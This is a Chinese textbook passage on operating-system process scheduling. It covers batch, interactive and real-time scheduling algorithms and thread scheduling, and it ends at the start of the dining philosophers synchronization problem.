图2-38中有一件值得注意的事，即某些进程（图2-38a的进程）花费了绝大多数时间在计算上，而其他进程（图2-38b的进程）则在等待I/O上花费了绝大多数时间。前者称为计算密集型（compute-bound），后者称为I/O密集型（I/O-bound）。典型的计算密集型进程具有较长时间的CPU集中使用和较小频度的I/O等待。I/O密集型进程具有较短时间的CPU集中使用和频繁的I/O等待。它是I/O类的，因为这种进程在I/O请求之间较少进行计算，并不是因为它们有特别长的I/O请求。在I/O开始后无论处理数据是多还是少，它们都花费同样的时间提出硬件请求读取磁盘块。
有必要指出，随着CPU变得越来越快，更多的进程倾向为I/O密集型。这种现象之所以发生是因为CPU的改进比磁盘的改进快得多，其结果是，未来对I/O密集型进程的调度处理似乎更为重要。这里的基本思想是，如果需要运行I/O密集型进程，那么就应该让它尽快得到机会，以便发出磁盘请求并保持磁盘始终忙碌。从图2-6中可以看到，如果进程是I/O密集型的，则需要多运行一些这类进程以保持CPU的充分利用。
2.何时调度
有关调度处理的一个关键问题是何时进行调度决策。存在着需要调度处理的各种情形。第一，在创建一个新进程之后，需要决定是运行父进程还是运行子进程。由于这两种进程都处于就绪状态，所以这是一种正常的调度决策，可以任意决定，也就是说，调度程序可以合法选择先运行父进程还是先运行子进程。
第二，在一个进程退出时必须做出调度决策。一个进程不再运行（因为它不再存在），所以必须从就绪进程集中选择另外某个进程。如果没有就绪的进程，通常会运行一个系统提供的空闲进程。
第三，当一个进程阻塞在I/O和信号量上或由于其他原因阻塞时，必须选择另一个进程运行。有时，阻塞的原因会成为选择的因素。例如，如果A是一个重要的进程，并正在等待B退出临界区，让B随后运行将会使得B退出临界区，从而可以让A运行。不过问题是，通常调度程序并不拥有做出这种相关考虑的必要信息。
第四，在一个I/O中断发生时，必须做出调度决策。如果中断来自I/O设备，而该设备现在完成了工作，某些被阻塞的等待该I/O的进程就成为可运行的就绪进程了。是否让新就绪的进程运行，这取决于调度程序的决定，或者让中断发生时运行的进程继续运行，或者应该让某个其他进程运行。
如果硬件时钟提供50Hz、60Hz或其他频率的周期性中断，可以在每个时钟中断或者在每k个时钟中断时做出调度决策。根据如何处理时钟中断，可以把调度算法分为两类。非抢占式调度算法挑选一个进程，然后让该进程运行直至被阻塞（阻塞在I/O上或等待另一个进程），或者直到该进程自动释放CPU。即使该进程运行了若干个小时，它也不会被强迫挂起。这样做的结果是，在时钟中断发生时不会进行调度。在处理完时钟中断后，如果没有更高优先级的进程等待到时，则被中断的进程会继续执行。
相反，抢占式调度算法挑选一个进程，并且让该进程运行某个固定时段的最大值。如果在该时段结束时，该进程仍在运行，它就被挂起，而调度程序挑选另一个进程运行（如果存在一个就绪进程）。进行抢占式调度处理，需要在时间间隔的末端发生时钟中断，以便把CPU控制返回给调度程序。如果没有可用的时钟，那么非抢占式调度就是惟一的选择了。
3.调度算法分类
毫无疑问，不同的环境需要不同的调度算法。之所以出现这种情形，是因为不同的应用领域（以及不同的操作系统）有不同的目标。换句话说，在不同的系统中，调度程序的优化是不同的。这里有必要划分出三种环境：
1)批处理。
2)交互式。
3)实时。
批处理系统在商业领域仍在广泛应用，用来处理薪水册、存货清单、账目收入、账目支出、利息计算（在银行）、索赔处理（在保险公司）和其他的周期性的作业。在批处理系统中，不会有用户不耐烦地在终端旁等待一个短请求的快捷响应。因此，非抢占式算法，或对每个进程都有长时间周期的抢占式算法，通常都是可接受的。这种处理方式减少了进程的切换从而改善了性能。这些批处理算法实际上相当普及，并经常可以应用在其他场合，这使得人们值得去学习它们，甚至是对于那些没有接触过大型机计算的人们。
在交互式用户环境中，为了避免一个进程霸占CPU拒绝为其他进程服务，抢占是必需的。即便没有进程想永远运行，但是，某个进程由于一个程序错误也可能无限期地排斥所有其他进程。为了避免这种现象发生，抢占也是必要的。服务器也归于此类，因为通常它们要服务多个突发的（远程）用户。
然而在有实时限制的系统中，抢占有时是不需要的，因为进程了解它们可能会长时间得不到运行，所以通常很快地完成各自的工作并阻塞。实时系统与交互式系统的差别是，实时系统只运行那些用来推进现有应用的程序，而交互式系统是通用的，它可以运行任意的非协作甚至是有恶意的程序。
4.调度算法的目标
为了设计调度算法，有必要考虑什么是一个好的调度算法。某些目标取决于环境（批处理、交互式或实时），但是还有一些目标是适用于所有情形的。在图2-39中列出了一些目标，我们将在下面逐一讨论。
在所有的情形中，公平是很重要的。相似的进程应该得到相似的服务。对一个进程给予较其他等价的进程更多的CPU时间是不公平的。当然，不同类型的进程可以采用不同方式处理。可以考虑一下在核反应堆计算机中心安全控制与发放薪水处理之间的差别。
与公平有关的是系统策略的强制执行。如果局部策略是，只要需要就必须运行安全控制进程（即便这意味着推迟30秒钟发薪），那么调度程序就必须保证能够强制执行该策略。
另一个共同的目标是保持系统的所有部分尽可能忙碌。如果CPU和所有I/O设备能够始终运行，那么相对于让某些部件空转而言，每秒钟就可以完成更多的工作。例如，在批处理系统中，调度程序控制哪个作业调入内存运行。在内存中既有一些CPU密集型进程又有一些I/O密集型进程是一个较好的想法，好于先调入和运行所有的CPU密集型作业，然后在它们完成之后再调入和运行所有I/O密集型作业的做法。如果使用后面一种策略，在CPU密集型进程运行时，它们就要竞争CPU，而磁盘却在空转。稍后，当I/O密集型作业来了之后，它们要为磁盘而竞争，而CPU又空转了。显然，通过对进程的仔细组合，可以保持整个系统运行得更好一些。
运行大量批处理作业的大型计算中心的管理者们为了掌握其系统的工作状态，通常检查三个指标：吞吐量、周转时间以及CPU利用率。吞吐量（throughout）是系统每小时完成的作业数量。把所有的因素考虑进去之后，每小时完成50个作业好于每小时完成40个作业。周转时间（turnaround time）是指从一个批处理作业提交时刻开始直到该作业完成时刻为止的统计平均时间。该数据度量了用户要得到输出所需的平均等待时间。其规则是：小就是好的。
能够使吞吐量最大化的调度算法不一定就有最小的周转时间。例如，对于确定的短作业和长作业的一个组合，总是运行短作业而不运行长作业的调度程序，可能会获得出色的吞吐性能（每小时大量的短作业），但是其代价是对于长的作业周转时间很差。如果短作业以一个稳定的速率不断到达，长作业可能根本运行不了，这样平均周转时间是无限长，但是得到了高的吞吐量。
CPU利用率常常用于对批处理系统的度量。尽管这样，CPU利用率并不是一个好的度量参数。真正有价值的是，系统每小时可完成多少作业（吞吐量），以及完成作业需要多长时间（周转时间）。把CPU利用率作为度量依据，就像用引擎每小时转动了多少次来比较汽车的好坏一样。另一方面，知道什么时候CPU利用率接近100%比知道什么时候要求得到更多的计算能力要有用。
对于交互式系统，则有不同的指标。最重要的是最小响应时间，即从发出命令到得到响应之间的时间。在有后台进程运行（例如，从网络上读取和存储电子邮件）的个人计算机上，用户请求启动一个程序或打开一个文件应该优先于后台的工作。能够让所有的交互式请求首先运行的则是好服务。
一个相关的问题是均衡性。用户对做一件事情需要多长时间总是有一种固有的（不过通常不正确）看法。当认为一个请求很复杂需要较多的时间时，用户会接受这个看法，但是当认为一个请求很简单，但也需要较多的时间时，用户就会急躁。例如，如果点击一个图标花费了60秒钟发送完成一份传真，用户大概会接受这个事实，因为他没有期望花5秒钟得到传真。
另一方面，当传真发送完成，用户点击断开电话连接的图标时，该用户就有不一样的期待了。如果30秒之后还没有完成断开操作，用户就可能会抱怨，而60秒之后，他就要气得要命了。之所以有这种行为，其原因是：一般用户认为拿起听筒并建立通话连接所需的时间要比挂掉电话所需的时间长。在有些情形下（如本例），调度程序对响应时间指标起不了作用；但是在另外一些情形下，调度程序还是能够做一些事的，特别是在出现差的进程顺序选择时。
实时系统有着与交互式系统不一样的特性，所以有不同的调度目标。实时系统的特点是或多或少必须满足截止时间。例如，如果计算机正在控制一个以正常速率产生数据的设备，若一个按时运行的数据收集进程出现失败，会导致数据丢失。所以，实时系统最主要的要求是满足所有的（或大多数）截止时间要求。
在多数实时系统中，特别是那些涉及多媒体的实时系统中，可预测性是很重要的。偶尔不能满足截止时间要求的问题并不严重，但是如果音频进程运行的错误太多，那么音质就会下降得很快。视频品质也是一个问题，但是人的耳朵比眼睛对抖动要敏感得多。为了避免这些问题，进程调度程序必须是高度可预测和有规律的。在本章中我们将研究批处理和交互式调度算法，而把有关实时调度处理的研究放到第7章多媒体操作系统中。
现在我们从一般的调度处理问题转向特定的调度算法。在这一节中，我们将考察在批处理系统中使用的算法，随后将讨论交互式和实时系统中的调度算法。有必要指出，某些算法既可以用在批处理系统中，也可以用在交互式系统中。我们将稍后讨论这个问题。
1.先来先服务
在所有调度算法中，最简单的是非抢占式的先来先服务（first-come first-severd）算法。使用该算法，进程按照它们请求CPU的顺序使用CPU。基本上，有一个就绪进程的单一队列。早上，当第一个作业从外部进入系统，就立即开始并允许运行它所期望的时间。不会中断该作业，因为它需要很长的时间运行。当其他作业进入时，它们就被安排到队列的尾部。当正在运行的进程被阻塞时，队列中的第一个进程就接着运行。在被阻塞的进程变为就绪时，就像一个新来到的作业一样，排到队列的末尾。
这个算法的主要优点是易于理解并且便于在程序中运用。就难以得到的体育或音乐会票的分配问题而言，这对那些愿意在早上两点就去排队的人们也是公平的。在这个算法中，一个单链表记录了所有就绪进程。要选取一个进程运行，只要从该队列的头部移走一个进程即可；要添加一个新的作业或阻塞一个进程，只要把该作业或进程附加在相应队列的末尾即可。还有比这更简单的理解和实现吗？
不过，先来先服务也有明显的缺点。假设有一个一次运行1秒钟的计算密集型进程和很少使用CPU但是每个都要进行1000次磁盘读操作才能完成的大量I/O密集型进程存在。计算密集进程运行1秒钟，接着读一个磁盘块。所有的I/O进程开始运行并读磁盘。当该计算密集进程获得其磁盘块时，它运行下一个1秒钟，紧跟随着的是所有I/O进程。
这样做的结果是，每个I/O进程在每秒钟内读到一个磁盘块，要花费1000秒钟才能完成操作。如果有一个调度算法每10ms抢占计算密集型进程，那么I/O进程将在10秒钟内完成而不是1000秒钟，而且还不会对计算密集型进程产生多少延迟。
2.最短作业优先
现在来看一种适用于运行时间可以预知的另一个非抢占式的批处理调度算法。例如，一家保险公司，因为每天都做类似的工作，所以人们可以相当精确地预测处理1000个索赔的一批作业需要多少时间。当输入队列中有若干个同等重要的作业被启动时，调度程序应使用最短作业优先（shortest job first）算法，请看图2-40。这里有4个作业A、B、C、D，运行时间分别为8、4、4、4分钟。若按图中的次序运行，则A的周转时间为8分钟，B为12分钟，C为16分钟，D为20分钟，平均为14分钟。
现在考虑使用最短作业优先算法运行这4个作业，如图2-40b所示。目前周转时间分别为4、8、12和20分钟，平均为11分钟。可以证明最短作业优先是最优的。考虑有4个作业的情况，其运行时间分别为a、b、c、d。第一个作业在时间a结束，第二个在时间a+b结束，以此类推。平均周转时间为（4a+3b+2c+d）/4。显然a对平均值影响最大，所以它应是最短作业，其次是b，再次是c，最后的d只影响它自己的周转时间。对任意数目作业的情况，道理完全一样。
有必要指出，只有在所有的作业都可同时运行的情形下，最短作业优先算法才是最优化的。作为一个反例，考虑5个作业，从A到E，运行时间分别是2、4、1、1和1。它们的到达时间是0、0、3、3和3。开始，只能选择A或B，因为其他三个作业还没有到达。使用最短作业优先，将按照A、B、C、D、E的顺序运行作业，其平均等待时间是4.6。但是，按照B、C、D、E、A的顺序运行作业，其平均等待时间则是4.4。
3.最短剩余时间优先
最短作业优先的抢占式版本是最短剩余时间优先（shortest remaining time next）算法。使用这个算法，调度程序总是选择剩余运行时间最短的那个进程运行。再次提醒，有关的运行时间必须提前掌握。当一个新的作业到达时，其整个时间同当前进程的剩余时间做比较。如果新的进程比当前运行进程需要更少的时间，当前进程就被挂起，而运行新的进程。这种方式可以使新的短作业获得良好的服务。
现在考察用于交互式系统中的一些调度算法，它们在个人计算机、服务器和其他类系统中都是常用的。
1.轮转调度
一种最古老、最简单、最公平且使用最广的算法是轮转调度（round robin）。每个进程被分配一个时间段，称为时间片（quantum），即允许该进程在该时间段中运行。如果在时间片结束时该进程还在运行，则将剥夺CPU并分配给另一个进程。如果该进程在时间片结束前阻塞或结束，则CPU立即进行切换。时间片轮转调度很容易实现，调度程序所要做的就是维护一张可运行进程列表，如图2-41a所示。当一个进程用完它的时间片后，就被移到队列的末尾，如图2-41b所示。
时间片轮转调度中惟一有趣的一点是时间片的长度。从一个进程切换到另一个进程是需要一定时间进行管理事务处理的——保存和装入寄存器值及内存映像、更新各种表格和列表、清除和重新调入内存高速缓存等。假如进程切换（process switch），有时称为上下文切换（context switch），需要1ms，包括切换内存映像、清除和重新调入高速缓存等。再假设时间片设为4ms。有了这些参数，则CPU在做完4ms有用的工作之后，CPU将花费（即浪费）1ms来进行进程切换。因此，CPU时间的20%浪费在管理开销上。很清楚，这一管理时间太多了。
为了提高CPU的效率，我们可以将时间片设置成，比方说，100ms，这样浪费的时间只有1%。但是，如果在一段非常短的时间间隔内到达50个请求，并且对CPU有不同的需求，那么，考虑一下，在一个服务器系统中会发生什么呢？50个进程会放在可运行进程的列表中。如果CPU是空闲的，第一个进程会立即开始执行，第二个直到100ms以后才会启动，以此类推。假设所有其他进程都用足了它们的时间片的话，最不幸的是最后一个进程在获得运行机会之前将不得不等待5秒钟。大部分用户会认为5秒的响应对于一个短命令来说是缓慢的。如果一些在队列后端附近的请求仅要求几毫秒的CPU时间，上面的情况会变得尤其糟糕。如果使用较短的时间片的话，它们将会获得更好的服务。
另一个因素是，如果时间片设置长于平均的CPU突发时间，那么不会经常发生抢占。相反，在时间片耗费完之前多数进程会完成一个阻塞操作，引起进程的切换。抢占的消失改善了性能，因为进程切换只会发生在确实逻辑上有需要的时候，即进程被阻塞不能够继续运行。
可以归结如下结论：时间片设得太短会导致过多的进程切换，降低了CPU效率；而设得太长又可能引起对短的交互请求的响应时间变长。将时间片设为20ms～50 ms通常是一个比较合理的折中。
2.优先级调度
轮转调度做了一个隐含的假设，即所有的进程同等重要，而拥有和操作多用户计算机系统的人对此常有不同的看法。例如，在一所大学里，等级顺序可能是教务长首先，然后是教授、秘书、后勤人员，最后是学生。这种将外部因素考虑在内的需要就导致了优先级调度。其基本思想很清楚：每个进程被赋予一个优先级，允许优先级最高的可运行进程先运行。
即使在只有一个用户的PC机上，也会有多个进程，其中一些比另一些更重要。例如，与在屏幕上实时显示视频电影的进程相比，在后台发送电子邮件的守护进程应该被赋予较低的优先级。
为了防止高优先级进程无休止地运行下去，调度程序可以在每个时钟滴答（即每个时钟中断）降低当前进程的优先级。如果这个动作导致该进程的优先级低于次高优先级的进程，则进行进程切换。一个可采用的方法是，每个进程可以被赋予一个允许运行的最大时间片，当这个时间片用完时，下一个次高优先级的进程获得机会运行。
优先级可以是静态赋予或动态赋予。在一台军用计算机上，可以把将军所启动的进程设为优先级100，上校为90，少校为80，上尉为70，中尉为60，以此类推。或者，在一个商业计算中心，高优先级作业每小时费用为100美元，中优先级每小时75美元，低优先级每小时50美元。UNIX系统中有一条命令nice，它允许用户为了照顾别人而自愿降低自己进程的优先级。但从未有人用过它。
为达到某种目的，优先级也可以由系统动态确定。例如，有些进程为I/O密集型，其多数时间用来等待I/O结束。当这样的进程需要CPU时，应立即分配给它CPU，以便启动下一个I/O请求，这样就可以在另一个进程计算的同时执行I/O操作。使这类I/O密集型进程长时间等待CPU只会造成它无谓地长时间占用内存。使I/O密集型进程获得较好服务的一种简单算法是，将其优先级设为1/f，f为该进程在上一时间片中所占的部分。一个在其50ms的时间片中只使用1ms的进程将获得优先级50，而在阻塞之前用掉25ms的进程将具有优先级2，而使用掉全部时间片的进程将得到优先级1。
可以很方便地将一组进程按优先级分成若干类，并且在各类之间采用优先级调度，而在各类进程的内部采用轮转调度。图2-42给出了一个有4类优先级的系统，其调度算法如下：只要存在优先级为第4类的可运行进程，就按照轮转法为每个进程运行一个时间片，此时不理会较低优先级的进程。若第4类进程为空，则按照轮转法运行第3类进程。若第4类和第3类均为空，则按轮转法运行第2类进程。如果不偶尔对优先级进行调整，则低优先级进程很可能会产生饥饿现象。
3.多级队列
CTSS（Compatible TimeSharing System），M.I.T.在IBM 7094上开发的兼容分时系统（Corbató等人，1962），是最早使用优先级调度的系统之一。但是在CTSS中存在进程切换速度太慢的问题，其原因是IBM 7094内存中只能放进一个进程，每次切换都需要将当前进程换出到磁盘，并从磁盘上读入一个新进程。CTSS的设计者很快便认识到，为CPU密集型进程设置较长的时间片比频繁地分给它们很短的时间片要更为高效（减少交换次数）。另一方面，如前所述，长时间片的进程又会影响到响应时间，其解决办法是设立优先级类。属于最高优先级类的进程运行一个时间片，属于次高优先级类的进程运行2个时间片，再次一级运行4个时间片，以此类推。当一个进程用完分配的时间片后，它被移到下一类。
作为一个例子，考虑有一个进程需要连续计算100个时间片。它最初被分配1个时间片，然后被换出。下次它将获得2个时间片，接下来分别是4、8、16、32和64。当然最后一次它只使用64个时间片中的37个便可以结束工作。该进程需要7次交换（包括最初的装入），而如果采用纯粹的轮转算法则需要100次交换。而且，随着进程优先级的不断降低，它的运行频度逐渐放慢，从而为短的交互进程让出CPU。
对于那些刚开始运行一段长时间，而后来又需要交互的进程，为了防止其永远处于被惩罚状态，可以采取下面的策略。只要终端上有回车键（Enter键）按下，则属于该终端的所有进程就都被移到最高优先级，这样做的原因是假设此时进程即将需要交互。但可能有一天，一台CPU密集的重载机器上有几个用户偶然发现，只需坐在那里随机地每隔几秒钟敲一下回车键就可以大大提高响应时间。于是他又告诉所有的朋友……这个故事的寓意是：在实践上可行比理论上可行要困难得多。
已经有许多其他算法可用来对进程划分优先级类。例如，在伯克利制造的著名的XDS 940系统中（Lampson，1968），有4个优先级类，分别是终端、I/O、短时间片和长时间片。当一个一直等待终端输入的进程最终被唤醒时，它被转到最高优先级类（终端）。当等待磁盘块数据的一个进程就绪时，将它转到第2类。当进程在时间片用完时仍为就绪时，它一般被放入第3类。但如果一个进程已经多次用完时间片而从未因终端或其他I/O原因阻塞，那么它将被转入最低优先级类。许多其他系统也使用类似的算法，用以讨好交互用户和进程，而不惜牺牲后台进程。
4.最短进程优先
对于批处理系统而言，由于最短作业优先常常伴随着最短响应时间，所以如果能够把它用于交互进程，那将是非常好的。在某种程度上，的确可以做到这一点。交互进程通常遵循下列模式：等待命令、执行命令、等待命令、执行命令，如此不断反复。如果我们将每一条命令的执行看作是一个独立的“作业”，则我们可以通过首先运行最短的作业来使响应时间最短。这里惟一的问题是如何从当前可运行进程中找出最短的那一个进程。
一种办法是根据进程过去的行为进行推测，并执行估计运行时间最短的那一个。假设某个终端上每条命令的估计运行时间为T0 。现在假设测量到其下一次运行时间为T1 。可以用这两个值的加权和来改进估计时间，即aT0 +(1-a)T1 。通过选择a的值，可以决定是尽快忘掉老的运行时间，还是在一段长时间内始终记住它们。当a=1/2时，可以得到如下序列：
T0 ，T0 /2+T1 /2，T0 /4+T1 /4+T2 /2，T0 /8+T1 /8+T2 /4+T3 /2
可以看到，在三轮过后，T0 在新的估计值中所占的比重下降到1/8。
有时把这种通过当前测量值和先前估计值进行加权平均而得到下一个估计值的技术称作老化（aging）。它适用于许多预测值必须基于先前值的情况。老化算法在a=1/2时特别容易实现，只需将新值加到当前估计值上，然后除以2（即右移一位）。
5.保证调度
一种完全不同的调度算法是向用户作出明确的性能保证，然后去实现它。一种很实际并很容易实现的保证是：若用户工作时有n个用户登录，则用户将获得CPU处理能力的1/n。类似地，在一个有n个进程运行的单用户系统中，若所有的进程都等价，则每个进程将获得1/n的CPU时间。看上去足够公平了。
为了实现所做的保证，系统必须跟踪各个进程自创建以来已使用了多少CPU时间。然后它计算各个进程应获得的CPU时间，即自创建以来的时间除以n。由于各个进程实际获得的CPU时间是已知的，所以很容易计算出真正获得的CPU时间和应获得的CPU时间之比。比率为0.5说明一个进程只获得了应得时间的一半，而比率为2.0则说明它获得了应得时间的2倍。于是该算法随后转向比率最低的进程，直到该进程的比率超过它的最接近竞争者为止。
6.彩票调度
给用户一个保证，然后兑现之，这是个好想法，不过很难实现。但是，有一个既可给出类似预测结果而又有非常简单的实现方法的算法，这个算法称为彩票调度（lottery scheduling）（Waldspurger和Weihl，1994）。
其基本思想是向进程提供各种系统资源（如CPU时间）的彩票。一旦需要做出一项调度决策时，就随机抽出一张彩票，拥有该彩票的进程获得该资源。在应用到CPU调度时，系统可以掌握每秒钟50次的一种彩票，作为奖励每个获奖者可以得到20ms的CPU时间。
为了说明George Orwell关于“所有进程是平等的，但是某些进程更平等一些”的含义，可以给更重要的进程额外的彩票，以便增加它们获胜的机会。如果出售了100张彩票，而有一个进程持有其中的20张，那么在每一次抽奖中该进程就有20%的取胜机会。在较长的运行中，该进程会得到20%的CPU。相反，对于优先级调度程序，很难说明拥有优先级40究竟是什么意思，而这里的规则很清楚：拥有彩票f份额的进程大约得到系统资源的f份额。
彩票调度具有若干有趣的性质。例如，如果有一个新的进程出现并得到一些彩票，那么在下一次的抽奖中，该进程会有同它持有彩票数量成比例的机会赢得奖励。换句话说，彩票调度是反应迅速的。
如果希望协作进程可以交换它们的彩票。例如，有一个客户进程向服务器进程发送消息后就被阻塞，该客户进程可以把它所有的彩票交给服务器，以便增加该服务器下次运行的机会。在服务器运行完成之后，该服务器再把彩票还给客户机，这样客户机又可以运行了。事实上，如果没有客户机，服务器根本就不需要彩票。
彩票调度可以用来解决用其他方法很难解决的问题。一个例子是，有一个视频服务器，在该视频服务器上若干进程正在向其客户提供视频流，每个视频流的帧速率都不相同。假设这些进程需要的帧速率分别是10、20和25帧/秒。如果给这些进程分别分配10、20和25张彩票，那么它们会自动地按照大致正确的比例（即10∶20∶25）划分CPU的使用。
7.公平分享调度
到现在为止，我们假设被调度的都是各个进程自身，并不关注其所有者是谁。这样做的结果是，如果用户1启动9个进程而用户2启动1个进程，使用轮转或相同优先级调度算法，那么用户1将得到90%的CPU时间，而用户2只得到10%的CPU时间。
为了避免这种情形，某些系统在调度处理之前考虑谁拥有进程这一因素。在这种模式中，每个用户分配到CPU时间的一部分，而调度程序以一种强制的方式选择进程。这样，如果两个用户都得到获得50%CPU时间的保证，那么无论一个用户有多少进程存在，每个用户都会得到应有的CPU份额。
作为一个例子，考虑有两个用户的一个系统，每个用户都保证获得50%CPU时间。用户1有4个进程A、B、C和D，而用户2只有1个进程E。如果采用轮转调度，一个满足所有限制条件的可能序列是：
A E B E C E D E A E B E C E D E…
另一方面，如果用户1得到比用户2两倍的CPU时间，我们会有
A B E C D E A B E C D E…
当然，大量其他的可能也存在，可以进一步探讨，这取决于如何定义公平的含义。
实时系统是一种时间起着主导作用的系统。典型地，外部的一种或多种物理设备给了计算机一个刺激，而计算机必须在一个确定的时间范围内恰当地做出反应。例如，在CD播放器中的计算机获得从驱动器而来的位流，然后必须在非常短的时间间隔内将位流转换为音乐。如果计算时间过长，那么音乐就会听起来有异常。其他的实时系统例子还有，医院特别护理部门的病人监护装置、飞机中的自动驾驶系统以及自动化工厂中的机器人控制等。在所有这些例子中，正确的但是迟到的应答往往比没有还要糟糕。
实时系统通常可以分为硬实时（hard real time）和软实时（soft real time），前者的含义是必须满足绝对的截止时间，后者的含义是虽然不希望偶尔错失截止时间，但是可以容忍。在这两种情形中，实时性能都是通过把程序划分为一组进程而实现的，其中每个进程的行为是可预测和提前掌握的。这些进程一般寿命较短，并且极快地就运行完成。在检测到一个外部信号时，调度程序的任务就是按照满足所有截止时间的要求调度进程。
实时系统中的事件可以按照响应方式进一步分类为周期性（以规则的时间间隔发生）事件或非周期性（发生时间不可预知）事件。一个系统可能要响应多个周期性事件流。根据每个事件需要处理时间的长短，系统甚至有可能无法处理完所有的事件。例如，如果有m个周期事件，事件i以周期Pi 发生，并需要Ci 秒CPU时间处理一个事件，那么可以处理负载的条件是
满足这个条件的实时系统称为是可调度的。
作为一个例子，考虑一个有三个周期性事件的软实时系统，其周期分别是100ms、200ms和500ms。如果这些事件分别需要50ms、30ms和100 ms的CPU时间，那么该系统是可调度的，因为0.5+0.15+0.2＜1。如果有第四个事件加入，其周期为1秒，那么只要这个事件是不超过每事件150ms的CPU时间，那么该系统就仍然是可调度的。在这个计算中隐含了一个假设，即上下文切换的开销很小，可以忽略不计。
实时系统的调度算法可以是静态或动态的。前者在系统开始运行之前作出调度决策；后者在运行过程中进行调度决策。只有在可以提前掌握所完成的工作以及必须满足的截止时间等全部信息时，静态调度才能工作。而动态调度算法不需要这些限制。这里我们只涉及一些特定的算法，而把实时多媒体系统留到第7章去讨论。
到目前为止，我们隐含地假设系统中所有进程分属不同的用户，并且，进程间相互竞争CPU。通常情况下确实如此，但有时也有这样的情况：一个进程有许多子进程并在其控制下运行。例如，一个数据库管理系统可能有许多子进程，每一个子进程可能处理不同的请求，或每一个子进程实现不同的功能（如请求分析，磁盘访问等）。主进程完全可能掌握哪一个子进程最重要（或最紧迫）而哪一个最不重要。但是，以上讨论的调度算法中没有一个算法从用户进程接收有关的调度决策信息，这就导致了调度程序很少能够做出最优的选择。
解决问题的方法是将调度机制（scheduling mechanism）与调度策略（scheduling policy）分离（著名的原则，Levin等人，1975），也就是将调度算法以某种形式参数化，而参数可以由用户进程填写。我们再来看一下数据库的例子。假设内核使用优先级调度算法，但提供一条可供进程设置（并改变）优先级的系统调用。这样，尽管父进程本身并不参与调度，但它可以控制如何调度子进程的细节。在这里，调度机制位于内核，而调度策略则由用户进程决定。
当若干进程都有多个线程时，就存在两个层次的并行：进程和线程。在这样的系统中调度处理有本质差别，这取决于所支持的是用户级线程还是内核级线程（或两者都支持）。
首先考虑用户级线程。由于内核并不知道有线程存在，所以内核还是和以前一样地操作，选取一个进程，假设为A，并给予A以时间片控制。A中的线程调度程序决定哪个线程运行，假设为A1。由于多道线程并不存在时钟中断，所以这个线程可以按其意愿任意运行多长时间。如果该线程用完了进程的全部时间片，内核就会选择另一个进程运行。
在进程A终于又一次运行时，线程A1会接着运行。该线程会继续耗费A进程的所有时间，直到它完成工作。不过，该线程的这种不合群的行为不会影响到其他的进程。其他进程会得到调度程序所分配的合适份额，不会考虑进程A内部所发生的事。
现在考虑A线程每次CPU计算的工作比较少的情况，例如，在50ms的时间片中有5ms的计算工作。于是，每个线程运行一会儿，然后把CPU交回给线程调度程序。这样在内核切换到进程B之前，就会有序列A1，A2，A3，A1，A2，A3，A1，A2，A3，A1。这种情形可用图2-43a表示。
实时系统使用的调度算法可以是上面介绍的算法中的任意一种。从实用考虑，轮转调度和优先级调度更为常用。惟一的局限是，缺乏一个时钟将运行过长的线程加以中断。
现在考虑使用内核级线程的情形。内核选择一个特定的线程运行。它不用考虑该线程属于哪个进程，不过如果有必要的话，它可以这样做。对被选择的线程赋予一个时间片，而且如果超过了时间片，就会强制挂起该线程。一个线程在50ms的时间片内，5ms之后被阻塞，在30ms的时间段中，线程的顺序会是A1，B1，A2，B2，A3，B3，在这种参数和用户线程状态下，有些情形是不可能出现的。这种情形部分通过图2-43b刻画。
用户级线程和内核级线程之间的差别在于性能。用户级线程的线程切换需要少量的机器指令，而内核级线程需要完整的上下文切换，修改内存映像，使高速缓存失效，这导致了若干数量级的延迟。另一方面，在使用内核级线程时，一旦线程阻塞在I/O上就不需要像在用户级线程中那样将整个进程挂起。
从进程A的一个线程切换到进程B的一个线程，其代价高于运行进程A的第2个线程（因为必须修改内存映像，清除内存高速缓存的内容），内核对此是了解的，并可运用这些信息做出决定。例如，给定两个在其他方面同等重要的线程，其中一个线程与刚好阻塞的线程属于同一个进程，而另一个线程属于其他的进程，那么应该倾向前者。
另一个重要因素是用户级线程可以使用专为应用程序定制的线程调度程序。例如，考虑图2-8中的Web服务器。假设一个工作线程刚刚被阻塞，而分派线程和另外两个工作线程是就绪的。那么应该运行哪一个呢？由于运行系统了解所有线程的作用，所以会直接选择分派线程接着运行，这样分派线程就会启动另一个工作线程运行。在一个工作线程经常阻塞在磁盘I/O上的环境中，这个策略将并行度最大化。而在内核级线程中，内核从来不了解每个线程的作用（虽然它们被赋予了不同的优先级）。不过，一般而言，应用定制的线程调度程序能够比内核更好地满足应用的需要。
操作系统文献中有许多广为讨论和分析的有趣问题，它们与同步方法的使用相关。以下几节我们将讨论其中两个最著名的问题。
1965年，Dijkstra提出并解决了一个他称之为哲学家就餐的同步问题。从那时起，每个发明新的同步原语的人都希望通过解决哲学家就餐问题来展示其同步原语的精妙之处。这个问题可以简单地描述如下：五个哲学家围坐在一张圆桌周围，每个哲学家面前都有一盘通心粉。由于通心粉很滑，所以需要两把叉子才能夹住。相邻两个盘子之间放有一把叉子，餐桌如图2-44所示。
哲学家的生活中有两种交替活动时段：即吃饭和思考（这只是一种抽象，即对哲学家而言其他活动都无关紧要）。当一个哲学家觉得饿了时，他就试图分两次去取其左边和右边的叉子，每次拿一把，但不分次序。如果成功地得到了两把叉子，就开始吃饭，吃完后放下叉子继续思考。关键问题是：能为每一个哲学家写一段描述其行为的程序，且决不会死锁吗？（要求拿两把叉子是人为规定的，我们也可以将意大利面条换成中国菜，用米饭代替通心粉，用筷子代替叉子。）
图2-45给出了一种直观的解法。过程take_fork将一直等到所指定的叉子可用，然后将其取用。不过，这种显然的解法是错误的。如果五位哲学家同时拿起左面的叉子，就没有人能够拿到他们右面的叉子，于是发生死锁。
我们可以将这个程序修改一下，这样在拿到左叉后，程序要查看右面的叉子是否可用。如果不可用，则该哲学家先放下左叉，等一段时间，再重复整个过程。但这种解法也是错误的，尽管与前一种原因不同。可能在某一个瞬间，所有的哲学家都同时开始这个算法，拿起其左叉，看到右叉不可用，又都放下左叉，等一会儿，又同时拿起左叉，如此这样永远重复下去。对于这种情况，所有的程序都在不停地运行，但都无法取得进展，就称为饥饿（starvation）。（即使问题不发生在意大利餐馆或中国餐馆，也被称为饥饿。）
